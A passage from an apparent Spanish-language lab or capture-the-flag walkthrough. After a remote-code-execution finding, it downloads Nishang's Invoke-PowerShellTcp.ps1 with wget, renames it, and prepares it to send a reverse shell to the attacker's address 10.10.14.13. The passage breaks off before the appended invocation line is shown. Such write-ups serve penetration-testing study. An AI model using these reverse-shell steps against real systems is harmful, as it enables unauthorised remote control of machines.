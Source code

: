 <figure><img src="../../../../../.gitbook/assets/999_vmware_6yEKiDJ9jp.png" alt=""><figcaption></figcaption></figure>

### Getting Reverse Shell with PowerShellTcp.ps1

Procederemos a abusar de este RCE otorgándonos una Reverse Shell. Para ello, en nuestra Kai nos descargaremos el [**PowerShellTcp.ps1**](https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1) y lo renombraremos a "PS.ps1".&#x20;

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1

mv Invoke-PowerShellTcp.ps1 PS.ps1
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1002_vmware_poF27QwpOD.png" alt=""><figcaption></figcaption></figure>

Modificaremos el script y en la última línea añadiremos la siguiente línea para que así invoque el comando para otorgarnos la Reverse Shell a nuestro equipo por el puerto especificado.

```bash
catnp PS.ps1 | grep 10.10.14.13
```
